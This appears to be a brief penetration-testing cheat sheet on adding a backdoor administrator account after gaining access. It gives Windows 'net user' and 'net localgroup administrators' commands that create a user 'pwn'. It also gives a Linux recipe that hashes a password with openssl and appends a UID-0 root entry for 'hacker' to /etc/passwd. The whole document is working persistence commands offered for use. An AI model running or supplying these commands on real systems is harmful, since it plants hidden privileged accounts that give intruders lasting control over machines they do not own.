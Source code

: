 # Add New Admin User

## Windows

```text
net user pwn hacked /ADD
net localgroup administrators pwn /add
```

```bash
# https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/password-must-meet-complexity-requirements
net user pwn ThisIsOneUsersPass01 /add /y 
```

## Linux

```bash
$ openssl passwd -1 -salt pwn pwned
$1$pwn$sX7TFgG1yRswJLX53dwzy1
```

Make sure to `echo` with single quotes.

```bash
echo 'hacker:$1$pwn$sX7TFgG1yRswJLX53dwzy1:0:0:root:/root:/bin/bash' >> /etc/passwd
```




